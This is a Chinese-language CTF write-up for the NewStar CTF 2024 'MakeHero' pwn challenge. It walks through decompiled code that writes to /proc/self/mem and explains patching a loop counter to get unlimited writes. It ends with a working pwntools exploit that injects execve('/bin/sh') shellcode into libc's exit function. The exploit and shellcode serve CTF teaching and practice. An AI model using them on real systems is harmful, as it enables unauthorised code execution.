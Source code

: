 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```


# MakeHero

## 逆向分析

固定步骤，拖入 IDA 分析

```c
void __fastcall __noreturn main(__int64 a1, char **a2, char **a3)
{
  unsigned __int8 v4; // [rsp+3h] [rbp-8Dh] BYREF
  int v5; // [rsp+4h] [rbp-8Ch]
  unsigned __int64 v6; // [rsp+8h] [rbp-88h] BYREF
  char v7[120]; // [rsp+10h] [rbp-80h] BYREF
  unsigned __int64 v8; // [rsp+88h] [rbp-8h]

  v8 = __readfsqword(0x28u);
  sub_1430(a1, a2, a3);
  v5 = 2;
  puts("Welcome to NewStarCTF week4!");
  puts(aEek4);
  printf(asc_20F8);
  __isoc99_scanf("%100s", v7);
  printf(aS, v7);
  puts(asc_2158);
  while ( 1 )
  {
    if ( !v5-- )
    {
      puts(asc_2270);
      sleep(3u);
      printf(asc_22B1, v7);
      exit(0);
    }
    printf(asc_217F);
    puts(asc_2198);
    if ( (unsigned int)__isoc99_scanf("%lx %hhx", &v6, &v4) != 2 )
    {
      puts(asc_2208);
      puts(asc_2233);
      exit(-1);
    }
    if ( v5 == 1 )
    {
      if ( v6 < qword_4060 || v6 >= qword_4068 )
        goto LABEL_7;
LABEL_11:
      sub_1369(v6, v4);
    }
    else
    {
      if ( v6 >= qword_4050 && v6 < qword_4058 )
        goto LABEL_11;
LABEL_7:
      puts(aOhNo);
    }
  }
}
```

```c
int __fastcall sub_1369(__off_t a1, char a2)
{
  char buf[4]; // [rsp+4h] [rbp-1Ch] BYREF
  __off_t offset; // [rsp+8h] [rbp-18h]
  int fd; // [rsp+1Ch] [rbp-4h]

  offset = a1;
  buf[0] = a2;
  fd = open("/proc/self/mem", 2);
  if ( fd == -1 )
  {
    perror("open /proc/self/mem");
    exit(1);
  }
  if ( lseek(fd, offset, 0) == -1 )
  {
    perror("lseek");
    close(fd);
    exit(1);
  }
  if ( write(fd, buf, 1uLL) != 1 )
    perror("write");
  return close(fd);
}
```

可知，程序实现了通过 `/proc/self/mem` 实现了任意地址的改写

:::tip
程序是通过 `open("/proc/self/mem")` 的方式实现改写，因此无视各地址段的读写权限
:::

![读入](/assets/images/wp/2024/week4/makehero_1.png)

程序读入两个数字，`%lx` 是地址，`%hhx` 是要改的字节

![限制输入范围](/assets/images/wp/2024/week4/makehero_2.png)

其中，程序对 `v6` 的取值做了限制

在 `sub_1430` 函数中，对这几个全局变量做了初始化

![全局变量初始化](/assets/images/wp/2024/week4/makehero_3.png)

结合 gdb 动调时的地址分布，我们可知，`qword_4060` 和 `qword_4068` 是程序 ELF `的地址，qword_4050` 和 `qword_4058` 是程序 libc 的地址

## Pwn it

程序能任意写两次，第一次能改写 ELF，第二次能改写 libc，仅有的两次机会是不足以让我们拿到 flag 的，我们需要通过仅有的两次机会来让我们获得「无限次」的机会

分析发现，程序的退出点在这里

![程序的退出点](/assets/images/wp/2024/week4/makehero_4.png)

因此我们能否通过修改跳转条件或是其他，来让程序不执行退出呢

![修改跳转条件](/assets/images/wp/2024/week4/makehero_5.png)

我们或许可以通过改 jnz 为其他条件跳转来实现一直执行，也可以让 `v5--` 变为 `v5++` 来实现「无限次」任意写

![修改 v5](/assets/images/wp/2024/week4/makehero_6.png)

在这，我选择修改 `--` 为 `++`，就是将 `8D 50 FF` 改为 `8D 50 01`

![修改 v5](/assets/images/wp/2024/week4/makehero_7.png)

改完后，我们能一直任意写，剩下的就很多种解法了

我选择将 exit 处代码改为 shellcode，来 GetShell

```python
#!/usr/bin/env python3
from pwn import *

context(log_level='debug', arch='amd64', os='linux')
context.terminal = ["tmux", "splitw", "-h"]
uu64 = lambda x: u64(x.ljust(8, b'\x00'))
s = lambda x: p.send(x)
sa = lambda x, y: p.sendafter(x, y)
sl = lambda x: p.sendline(x)
sla = lambda x, y: p.sendlineafter(x, y)
r = lambda x: p.recv(x)
ru = lambda x: p.recvuntil(x)

p = process('./MakeHero')
libc = ELF("./libc.so.6")

def u8_ex(data) -> int:
    assert isinstance(data, (str, bytes)), "wrong data type!"
    length = len(data)
    assert length <= 1, "len(data) > 1!"
    if isinstance(data, str):
        data = data.encode('latin-1')
    data = data.ljust(1, b"\x00")
    return unpack(data, 8)

def write_mem(addr, byte):
    if isinstance(byte, bytes):
        sla(b'\x89\xef\xbc\x81', hex(addr) + ' ' + hex(u8_ex(byte)))
    elif isinstance(byte, int):
        sla(b'\x89\xef\xbc\x81', hex(addr) + ' ' + hex(byte))

def write_code(addr, code):
    for i in range(len(code)):
        write_mem(addr + i, code[i])

ru(b'** ')
code_base = int(p.recvuntil(b' -', drop=True), 16)

ru(b'## ')
libc_base = int(p.recvuntil(b' -', drop=True), 16)

sl(b'inkey')

write_mem(code_base + 0x1877, 0x1)
write_mem(libc_base + libc.sym.exit + 4, b'\x90')
write_mem(code_base + 0x1877, 0x1)
write_code(libc_base + libc.sym.exit + 5, b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05")
sl(b'bye')

p.interactive()
```

这题既能改 ELF，也能改 libc，应该会有很多不一样的解法吧（

